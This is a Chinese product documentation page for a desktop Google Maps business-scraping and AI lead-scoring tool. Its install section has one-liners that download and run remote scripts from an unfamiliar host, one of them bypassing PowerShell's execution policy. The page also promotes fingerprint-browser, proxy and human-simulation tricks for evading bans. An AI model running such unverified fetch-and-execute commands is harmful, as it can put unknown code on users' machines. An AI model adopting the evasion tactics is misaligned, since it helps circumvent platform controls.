






# maps 采集工具
 全球地图商家智能采集与 AI 精挑利器

<!-- {docsify-ignore-all}  放在第一行 # 后， 会在侧边栏中忽略所有标题 -->
<!-- ## 界面预览 {docsify-ignore} 侧边栏中忽略该标题 -->


## 工具介绍 









**用 AI 重新定义地图拓客效率**

> 专为外贸 BD、采购寻源、市场调研与创业者打造的高性能桌面端 Google 地图商家批量采集工具——不止是"能抓"，更是快、准、稳、隐私优先的线索生产力利器！

**关键词 × 地区 × 多语言，一次配置全网扫街**
支持多关键词、多地区笛卡尔积组合批量搜索，兼容英语、葡萄牙语、印尼语、阿拉伯语等多语种行业词，一次配置，自动跑遍全球目标城市与商圈，从海量地图结果中快速锁定高价值商家。

**AI 智能解析，商家档案自动结构化**
自动识别并提取商家名称、品类、地址、电话、官网、经纬度、PlaceId、评分等关键字段，无需手动整理，每家店的信息都变成干净可用的结构化数据。

**AI 图文双审，只留高价值线索**
可选精挑流程：先用 AI 文本评分（0~100）初筛，再交由多模态 AI 对门店图片做"真店判定"，自动淘汰占位图、空号与低分商家，导出时只保留最可能成交的精准线索。

**隐私 & 安全第一**
本工具不依赖第三方抓取 API，不收集用户数据；商家解析可走本机本地大模型（ollama / llamacpp），所有采集与导出操作均在本地完成——你的数据，永远只属于你。


    💡 "这不是爬虫，是尊重规则的专业地图拓客工具。"
    —— 专为高效、合规的 Google 地图主动获客场景设计，助力你在商家红海中精准破局。

📥 立即下载，让每一次搜索，都成为一次有价值的连接。

## 核心功能

- **批量采集**：关键词 × 地区 × 多语言组合，自动翻页、自动滚动加载，地图商家一网打尽。
- **AI 结构化解析**：名称、品类、地址、电话、官网、经纬度、PlaceId、评分自动提取。
- **门店图片抓取**：自动下载商家门店主图（全尺寸，最大边 1024），便于人工复核。
- **AI 文本评分（可选）**：本地大模型按业务提示词打分（0~100），初筛潜在客户。
- **AI 图片过滤（可选）**：多模态模型判定门店图是否为真实门店，过滤占位图/默认图。
- **一键导出 Excel**：按品类优先级排序导出，10 秒拿到结构化客户名单。
- **断点续跑 + 去重**：已采集的组合自动跳过，中断后可继续，不重复、不丢数据。
- **防封号设计**：指纹浏览器（AdsPower / MoreLogin）+ 代理 + 真人化操作模拟（移动/点击/输入），远离账号风险。
- **本地优先 / 跨平台**：支持 macOS 与 Windows，数据不出本机。

## 联系试用

> 想试试？扫一扫，聊聊~

<div style="text-align: center; margin: 30px 0;">

</div>


## 安装说明

> 试用账号 `guest` / 密码 `123456`

<!-- tabs:start -->


### **Windows 平台**

> 打开终端粘贴如下命令

```powershell
powershell -ExecutionPolicy Bypass -Command "iex ([System.Text.Encoding]::UTF8.GetString((iwr -useb 'https://files.443disk.xyz/PlaceHarvester.Desktop/install-win.ps1').Content))"
```


### **macOS 平台**
> 打开终端粘贴如下命令

```bash
/bin/bash -c "$(curl -fsSL https://files.443disk.xyz/PlaceHarvester.Desktop/install-osx.sh)"
```

<!-- tabs:end -->

## 设置参数 

运行程序，切换参数配置。第一次运行时，程序会自动跳转到参数设置界面，如下图所示



### 采集设置

- **最大采集数量**：每个关键词最多采集的商家数据条数
- **请求间隔**：两次搜索之间的等待时间（毫秒），用于模拟人工操作，降低被识别风险
- **下载商家图片**：是否下载商家门店主图；不勾选可加快采集速度。 下载的图片可以嵌入到导出的 excel 中， 方便查看。
- **超时时间**：单页加载超时时间（秒）

### MoreLogin 服务

> 本应用使用 MoreLogin 指纹浏览器免费的远程控制接口 [morelogin 下载](https://www.morelogin.com/zh)  
> 第一次使用 MoreLogin 务必激活一下 MoreLogin 的控制接口。在侧边栏的 "开发者 & AI智能体" 按钮上点击一下即可

- **启用服务**：是否启用 MoreLogin 指纹浏览器服务，用于多账号隔离与防封号
- **服务地址**：MoreLogin 服务的地址（默认 `http://127.0.0.1`）
- **服务端口**：MoreLogin 服务的端口号， 默认 40000
- **API Key**：访问密钥，未设置请留空， 默认不用填写，如果您在 MoreLogin 中设置过 api key， 从 MoreLogin 中复制该 key 填入即可


<p><b>启用 MoreLOgin 控制接口</b></p>


点击"转到工作区"按钮，或是点击侧边栏中的"工作面板"切换到工作面板界面。

## 工作面板


工作面板是采集操作的主界面，包含以下功能区域：

- **关键词列表**：填写待搜索的关键词，一行一个（支持中英文及多语种行业词），右上角显示关键词总数
- **操作按钮**：
  - **开始采集**：启动自动采集，程序将打开指纹浏览器跳转到 Google 地图并按关键词组合搜索
  - **清空关键词**：清除已输入的关键词列表
  - **清空数据**：删除采集进度及数据结果
  - **设置**：跳转回参数配置界面
- **统计信息**：实时显示总关键词数、待查询数、数据总量
- **数据列表 / 运行日志**：Tab 切换查看采集结果或运行日志
- **导出 Excel**：将采集到的商家数据导出为 Excel 文件

点击"开始采集"按钮后，程序将自动打开指纹浏览器跳转到 Google 地图首页进行工作，一般情况下不需要用户登录 google 地图。如果需要登录，可以先在指纹浏览登录完成后，再启动工具进行搜索。采集过程中可随时点击"停止采集"暂停；再次点击"开始采集"将从断点续跑（已采集的组合会被自动跳过）。


## 导出数据

点击工作面板右下角的 **"导出 Excel"** 按钮，选择导出目录及文件名后，程序将采集到的商家数据导出为 Excel 文件。

> 导出完成后，可以在 excel 文件中对结果进行二次排序、筛选，以得到高价值线索。


## 隐私与数据安全

- **本地优先**：商家信息解析可完全在本机完成（Mac 走本地 ollama，Windows 走 llamacpp 本地模型），无需上传数据到第三方。
- **不收集用户数据**：本工具不依赖第三方抓取 API，不回传用户查询与结果。
- **数据不出本机**：所有采集与导出操作均在你的设备上完成，客户名单只存在于你指定的本地目录。
- **合规使用**：请遵守 Google 地图使用条款与目标地区的法律法规，仅将本工具用于合法的业务拓客与调研。

## 工作演示


